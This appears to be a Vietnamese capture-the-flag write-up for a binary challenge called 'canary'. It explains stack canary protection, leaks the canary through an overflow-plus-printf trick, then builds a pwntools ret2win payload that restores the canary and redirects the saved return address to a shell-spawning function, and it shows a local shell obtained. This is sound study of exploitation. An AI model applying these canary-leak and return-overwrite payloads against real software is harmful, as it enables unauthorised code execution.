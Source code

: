 # *Challenge: canary*
***

- **Canary** là một giá trị ngẫu nhiên được đặt giữa buffer và return address trên stack. Mục tiêu là để phát hiện ghi đè tràn bộ đệm:
- Trước khi hàm trả về, chương trình sẽ kiểm tra canary. Nếu bị thay đổi -> chương trình kết thúc ngay.
**Các chế độ bảo vệ ảnh hưởng đến việc bypass canary:**
 ```
Bảo vệ	Ảnh hưởng
Canary	Phát hiện ghi đè stack
NX	Không cho thực thi shellcode
PIE	Địa chỉ code ngẫu nhiên
ASLR	Ngẫu nhiên hóa libc/stack
RELRO	Chống ghi đè GOT (không liên quan trực tiếp Canary)
```
*- Với file chall:*
 ```sh
 pwndbg> checksec
File:     /mnt/d/Documents/ISP/TASK1/6_bypass_canary/canary
Arch:     amd64
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
pwndbg>
```
- Canary found -> cần leak
- NX enabled -> không dùng đc shellcode, nhưng có thể dùng ROP để gọi system(“/bin/sh”)
- No PIE -> biết đc địa chỉ hàm, dễ tìm gadget và gọi thẳng vào win() hoặc system() nếu có
- Stripped: No -> dễ reverse, dễ phân tích
**Xem pseudo code ở IDA xem, chương trình hoạt động ntn:**
- Có 3 hàm chính: main(), init(), win()
Mô tả chương trình hoạt động: Khai báo 2 chuỗi buf với v5, gán tất cả các phần tử trong 2 chuỗi giá trị thành giá trị null sau đó khai báo hàm init khởi tạo các bộ điệm, nhập lần lượt 2 chuỗi buf và v5 rồi kết thúc chương trình
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  __int64 buf[4]; // [rsp+0h] [rbp-130h] BYREF
  __int64 v5[34]; // [rsp+20h] [rbp-110h] BYREF

  v5[33] = __readfsqword(0x28u);
  memset(buf, 0, sizeof(buf));
  memset(v5, '\0', 256);
  init();
  printf("Your name: ");
  read(0, buf, 0x200uLL);
  printf("Hello %s\n", (const char *)buf);
  printf("Your feedback: ");
  read(0, v5, 0x200uLL);
  puts("Thank you for your feedback!");
  return 0;
}
```
```c
int win()
{
  return system("/bin/sh");
}
```
 
 
->**Mục tiêu:** ta thấy khi nhập đúng 0x200 byte hết khả năng của chuỗi sẽ thấy chương trình sẽ bị exit luôn do canary. Như vậy, cách duy nhất ta có thể làm là leak canary ra nếu có buffer overflow
* Tiến hành debug thử chương trình:
-  Ta thấy cái fs[0x28] là vị trí mà chứa cái giá trị canary, thì giá trị của canary nó chính là rax
```sh
   0x401243 <main+15>    mov    rax, qword ptr fs:[0x28]       RAX, [0x7ffff7dc1768] => 0x26beeff6e7971700
   ```
- Đặc điểm của canary: byte đầu tiên luôn là byte null còn 7 byte còn lại sẽ là ngẫu nhiên và khác null, giá trị canary sẽ khác nhau sau mỗi lần chạy
- Ta có thể dùng lệnh tel để tìm giá trị của canary, thường nó sẽ nằm ở trước saved sbp, saved rip, ta có thể kiểm tra bằng canary nó sẽ cho đúng giá trị canary
 ```sh
 pwndbg> canary
AT_RANDOM  = 0x7fffffffe109 # points to global canary seed value
TLS Canary = 0x7ffff7dc1768 # address where canary is stored
Canary     = 0x26beeff6e7971700 (may be incorrect on != glibc)
Thread 1: Found valid canaries.
00:0000│-2d8 0x7fffffffda98 ◂— 0x26beeff6e7971700
Additional results hidden. Use --all to see them.
pwndbg>
```
- Cách leak: ta biết rằng hàm read sẽ không tự động thêm null byte sau khi nhập do có ta có thể cho nó nối với cái canary, ta sẽ nhập tràn xuống đúng cái canary, mình sẽ overwrite 1 byte null của canary, sau nó tận dụng hàm printf ngay sau để in ra 1 dãy mình nhập vào cộng với 7 byte canary tìm được.

***Stage 1: Viết script leak canary***
- Đầu tiên ta sẽ tìm offset từ lúc nhập buf cho tới canary (dùng cyclic kết hợp với tel)
 ```sh
 pwndbg> cyclic -l 0x626161616161616d
Finding cyclic pattern of 8 bytes: b'maaaaaab' (hex: 0x6d61616161616162)
Found at offset 296
pwndbg>
```
-> offset = 296 + 1 ( Do ta phải overwrite của 1 byte null của canary vì hàm printf sẽ ngắt nếu gặp null, sau khi overwrite đc byte null thì printf sẽ ko thấy byte null sẽ in tiếp 7 byte của canary)
- Ta có script như sau:
 ```py
 payload = b'a'*(296+1)
p.sendafter(b'name: ', payload)
p.recvuntil(b'a'*(296+1))
canary = u64(b'\0' + p.recv(7))
print("canary leak: ", hex(canary))
```
Kiểm tra lại bằng debug động xem đúng chưa:
-> chính xác
***Stage 2: Viết script lấy shell***
- Ta sẽ viết 1 cái payload giữ nguyên cái giá trị canary vừa leak đó và sau đó overwrite ret thành địa chỉ hàm main là xong (ret2win) do có sẵn hàm win trong chương trình.
- Đầu tiên vẫn truyền vào 296 byte rác rồi là giá trị canary (để bypass canary) sau đó đến rbp và cuối cùng sẽ điều khiển đc rip thôi)
- Script lấy shell:
 
- Kiểm tra bằng debug động:
 
-> Thấy canary bị sai, khả năng do truyền thừa hoặc thiếu byte rác, ta sẽ tính lại offset từ lúc nhập v5 đến ret.
- Do v5 khai báo sau buf khoảng 0x20 byte, nên ta cần trừ bớt 0x20 byte vào truyền đúng canary
 
-> offset = 296 – 0x20
Ta có script mới :
 ```py
 payload = flat(
    b'a'*(296-0x20),
    canary,        
    0,                # saved rbp
    exe.sym['win']   # saved rip
    )
p.sendafter(b'feedback: ', payload)

p.interactive()
```
- Tiếp tục kiểm tra bằng debug động:
- Ta thấy lỗi 0x7fff2fb05ef8 ko chia hết cho 16. Ta có 2 hướng xử lý có thể nhảy trực tiếp vào win (+5 byte) hoặc tìm 1 địa chỉ của hàm ret nào đó trước khi truyền địa chỉ hàm win.
```
0000000000000130: The address of the variable buf.
0000000000000128: The address of var_128.
0000000000000120: The address of var_120.
0000000000000118: The address of var_118.
0000000000000110: The address of var_110.
0000000000000108: The address of var_108.
```
- payload cuối:
```py
payload = flat(
    b'a'*(296-0x20),
    canary,        
    0,                # saved rbp
    exe.sym['win'] + 5 # saved rip
    )
```
 
- Kiểm tra xem oke chưa:
 ```sh
$ python3 solve.py
[+] Starting local process '/mnt/d/Documents/ISP/TASK1/6_bypass_canary/canary': pid 315
canary leak:  0xdea3870ca1fa5800
[*] Switching to interactive mode
Thank you for your feedback!
$
$ whoami
d1nhdwc
$ ls
'~$eport6.docx'   canary   canary.i64   report6.docx   report6.md   solve.py
$
```
**-> Đã chiếm đc shell**
